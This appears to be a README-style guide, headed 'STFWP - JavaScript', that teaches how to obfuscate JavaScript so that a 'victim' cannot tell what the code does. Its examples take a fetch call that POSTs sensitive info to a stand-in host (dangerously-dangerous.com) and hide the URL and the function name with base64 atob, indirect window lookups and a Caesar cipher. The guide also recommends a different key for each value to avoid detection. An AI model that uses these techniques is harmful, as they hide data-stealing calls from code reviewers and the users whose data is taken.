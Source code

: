 # STFWP - JavaScript

### Tricks

##### EXTREME-UGLIFICATION of your code
JavaScript being an interpreted language means it is really easy to read the code being executed. So, uglify your code. But even then its is readable. So, uglify it EXTREMELY by encrypting or encoding it to garbage. Doing it to the entire file can be a dead giveaway tho so you can instead just encrypt parts of the file that are easily readable. There are many ways to do this. Heres what I mean by this.

Heres your dangerously dangerous code -
```javascript
fetch('http://dangerously-dangerous.com/something', { method: 'post', body: { sensitive: 'info' } });
```

Looking at that you know that this will make a dangerously dangerous api call to possibly steal some sensitive info. Lets hide the url.

There are many ways to make it less readable. One of them is atob (base64)

So now it'll look like this
```javascript
fetch(atob('aHR0cDovL2Rhbmdlcm91c2x5LWRhbmdlcm91cy5jb20vc29tZXRoaW5n'), { method: 'post', body: { sensitive: 'info' } });
```

But its still pretty clear that the snippet is making an api call. Let's take it a step further i.e. TOO-EXTREME-TO-HANDLE-UGLIFICATION

```javascript
const _ = atob;
window[_('ZmV0Y2g=')](_('aHR0cDovL2Rhbmdlcm91c2x5LWRhbmdlcm91cy5jb20vc29tZXRoaW5n'), { method: 'post', body: { sensitive: 'info' } });
```

Now guess what that code does. Now stop guessing because you already know the answer. But your victim won't.

Instead of base64, you can also use a simple ceaser cipher or xor encryption algorithms. And to take it a step further, use a different key for each of the values. You can also use jsfuck but I don't reccommend it as it will make it easy for a developer to recognize whats happening and can un-jsfuck it.

Heres the same example with ceaser cipher. The first parameter is the key, the second is the string
```javascript
const _ = (k, i) => i.split('').reduce((s, c) => s + String.fromCharCode(c.charCodeAt(0) + k), '');
window[_(2, 'dcraf')](_(-4, 'lxxt>33herkivsywp}1herkivsyw2gsq3wsqixlmrk'), { method: 'post', body: { sensitive: 'info' } });
```
